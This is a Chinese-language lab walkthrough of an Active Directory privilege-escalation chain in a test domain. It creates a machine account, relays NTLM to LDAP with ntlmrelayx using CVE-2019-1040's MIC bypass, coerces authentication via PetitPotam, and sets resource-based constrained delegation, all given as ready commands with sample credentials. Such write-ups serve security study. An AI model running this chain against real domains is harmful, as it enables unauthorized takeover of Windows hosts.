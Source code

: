 ```php
> 环境简介
> 域名 - hack.lab
> 域控 - DC01 - 20.20.20.5
> 辅域 - F2016 - 20.20.20.6
> 域主机 - USER01 - 20.20.20.10
> Kali - 20.20.20.100

1. 创建机器账户
[bloodyAD](https://github.com/CravateRouge/bloodyAD)
```shell
python3 bloodyAD.py -d hack.lab -u spiderman -p '123.com' --host 20.20.20.5 addComputer CPT001 '123.com'
```

[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)

```shell
python3 addcomputer.py hack.lab/spiderman:123.com -method LDAPS -computer-name CPT001\$ -computer-pass 123.com -dc-ip DC01.hack.lab
```

2. 开启监听  
    使用 ntlmrelay 进行监听 ```shell
    python3 ntlmrelayx.py -t ldap://DC01.hack.lab -smb2support --remove-mic --delegate-access --escalate-user CPT001\$
    ```
    
    由于需要跨协议中继，需要绕过 mic 验证 ，结合 CVE-2019-1040 漏洞执行  
    如果不使用 --remove-mic 参数，会出现以下报错：

![x1UGUU.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-d5404e20d86899dad6f0bc35007119c19fac6a00.png)

3. 使用PetitPotam触发目标 NTLM 验证 ```shell
    python3 PetitPotam.py -d hack.lab -u spiderman -p 123.com 20.20.20.100 20.20.20.10
    ```

![x1U1bV.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-fd108496389225d45ed0fd5add94c6220f8ed702.png)

此外，ntlmrelay工具集成了前两步的功能，直接创建机器账户并修改中继修改目标的 RBCD 属性

```shell
python3 ntlmrelayx.py -t ldaps://DC01.hack.lab -smb2support --delegate-access --remove-mic
```

图中直接显示创建的随机名字和密码  
![x1UlD0.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-72a338aa3f52950638925f28a05891e1e35627ae.png)

4. 验证及使用  
    可以在域控上查看目标服务器（20.20.20.10）的RBCD属性 ```powershell
    Get-ADComputer USER01 -Properties PrincipalsAllowedToDelegateToAccount
    ```
    
    ![x1UtC4.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-b7eb42ebf10d5d91a27136afb4cbf8a7365eeff3.png)

后续的使用就是通过 getST.py 脚本申请服务票据和使用
